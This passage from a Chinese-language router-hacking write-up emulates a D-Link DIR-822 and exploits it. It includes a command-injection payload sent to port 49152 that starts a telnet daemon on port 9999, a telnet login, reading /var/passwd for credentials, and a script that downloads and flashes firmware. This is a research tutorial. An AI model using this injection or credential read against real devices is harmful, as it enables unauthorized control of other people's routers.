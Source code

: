 ```
portInput = 49152
httpSUB(serverInput, portInput, '`telnetd -p 9999 &amp;`')
```

这里使用firmware-analysis-plus框架仿真路由器，地址：[https://github.com/liyansong2018/firmware-analysis-plus](https://github.com/liyansong2018/firmware-analysis-plus)

```
python3 fat.py -q git/firmware-analysis-plus/qemu-builds/2.5.0/ /home/admin-dir/bin/dlink/DIR822A1_FW103WWb03.bin
```

[![](https://p2.ssl.qhimg.com/t01dc744e805cd80f42.png)](https://p2.ssl.qhimg.com/t01dc744e805cd80f42.png)

有可能使用浏览器访问192.168.0.1遇到不安全的TLS警告，直接启用即可。

使用nmap扫描端口，可以发现49152端口是默认开启的。

[![](https://p5.ssl.qhimg.com/t01f227d1fbc3a86e19.png)](https://p5.ssl.qhimg.com/t01f227d1fbc3a86e19.png)

使用exp测试仿真路由器，nmap扫描可以发现9999端口已被打开，并且成功登录telnet。

[![](https://p4.ssl.qhimg.com/t01f70fa4167db21758.png)](https://p4.ssl.qhimg.com/t01f70fa4167db21758.png)



## 五、 固件更新

更新固件使用仿真路由器有一些小缺陷，没有这款路由器的也可以继续使用仿真路由器做更新固件。更新固件的操作使用物理路由器。先介绍一种比较简单的办法，通过telnet登录822路由器，cat /var/passwd 路由器里面存放这路由器的账号密码，通过web端更新固件。

[![](https://p4.ssl.qhimg.com/t01a0648588e5820146.png)](https://p4.ssl.qhimg.com/t01a0648588e5820146.png)

[![](https://p5.ssl.qhimg.com/t0151d9daef6eafb11a.png)](https://p5.ssl.qhimg.com/t0151d9daef6eafb11a.png)

手动登录路由器telnet，wget固件然后升级，这里给出822路由器升级脚本为squashfs-root/usr/sbin/fw_upgrade

[![](https://p5.ssl.qhimg.com/t01b9a5ff3cc16216df.png)](https://p5.ssl.qhimg.com/t01b9a5ff3cc16216df.png)

下面在看一下etc/events/FWUPDATER.sh文件里面的操作。

[![](https://p1.ssl.qhimg.com/t015bdf7193cea43be2.png)](https://p1.ssl.qhimg.com/t015bdf7193cea43be2.png)

并没有什么特别的操作，这里选择直接调用usr/sbin/fw_upgrade脚本文件，下面为笔者更新固件脚本，读者只需要少量更改即可使用。

```
cd
cd /var
wget http://192.168.0.36:8000/DIR822A1_FW103WWb03.bin
mv DIR822A1_FW103WWb03.bin firmware.seama
chmod 777 firmware.seama
mount -t ramfs ramfs /proc
mkdir /proc/driver
cd
/usr/sbin/fw_upgrade /var/firmware.seama
```
